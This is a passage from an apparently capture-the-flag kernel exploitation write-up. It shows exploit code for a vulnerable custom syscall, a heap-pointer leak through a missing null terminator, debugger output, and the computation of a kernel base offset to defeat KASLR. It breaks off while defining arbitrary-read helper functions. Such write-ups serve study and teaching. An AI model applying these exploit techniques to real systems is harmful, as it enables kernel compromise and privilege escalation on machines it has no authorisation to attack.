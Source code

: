 ```c
int main(int argc, char *argv[]){
    char *data[] = {argv[1]};
    syscall(SYSCALL_NO, data);

    int size = bytes_left();

    char *buf = malloc(size);
    read(fd, buf, size);
    printf("%s\n", buf);
}
```

## Getting a leak
Having arbitrary read and write primitives is useless without a kernel leak.<br>
For the leak, I will abuse the fact that there is no null termination.<br>
Since the string is allocated on kernel, there is a high chance that there are string adjacent to out string. In kernel heap, (as far as I know) heap allocations of same size are adjacent to each other (like jemalloc). Upon trial-and-error, I found that giving a 8-byte length string, leaks a heap pointer which is adjacent to out string.<br>
I added `xxd` to `initramfs` to check the raw bytes.
```
/ $ ./exploit 12345678 | xxd
00000000: 3132 3334 3536 3738 50b5 0204 8088 ffff  12345678P.......
00000010: 3a61 2d30 3030 3030 3634 0a              :a-0000064.
```
It turns out that this pointer points to some strings and some pointers. But, after that there is a kernel address.
```
gef➤  telescope 0xffff88800402b550  70
0xffff88800402b550│+0x0000: 0x6f6c2f6572616873  →  0x6f6c2f6572616873
0xffff88800402b558│+0x0008: 0xffff88800402b570  →  0x6f6c2f6572616873  →  0x6f6c2f6572616873                                                                      
0xffff88800402b560│+0x0010: 0x6f6c2f6572616873  →  0x6f6c2f6572616873
0xffff88800402b568│+0x0018: 0xffff88800402b5a0  →  0x6f6c2f6572616873  →  0x6f6c2f6572616873                                                                      
0xffff88800402b570│+0x0020: 0x6f6c2f6572616873  →  0x6f6c2f6572616873
[truncated]
0xffff88800402b760│+0x0210: 0xffffffff82074ec0  →  0x0000000000000000  →  0x0000000000000000                                                                      
[truncated]
```
Thanks to the symbols, it turns out to be the address of `tty_dev_attr_group`.
```
# readelf -Ws ./vmlinux_elf| grep ffffffff82074ec0
 30380: ffffffff82074ec0     0 OBJECT  LOCAL  DEFAULT    2 tty_dev_attr_group
```
Its offset from kernel base (startup_64) is `0xffffffff82074ec0 - 0xffffffff81000000 = 0x1074ec0`.<br>
But the offset between the leaked pointer and between `tty_dev_attr_group` address is not constant. So, we have to leak a couple of values and check each value. I created `get_leak` function for this.<br>
I implemented the arbitrary read in `arb_read` and made a wrapper `arb_read_ptr` around it because sometimes the values had null bytes in them.<br>
```c
uint64_t arb_read(uint64_t ptr){
    clear_stdin();
    char *data[] = {"%s", ptr};
    syscall(SYSCALL_NO, data);
}

uint64_t arb_read_ptr(uint64_t ptr){
    char tmp[8];
    uint64_t ret;
    
```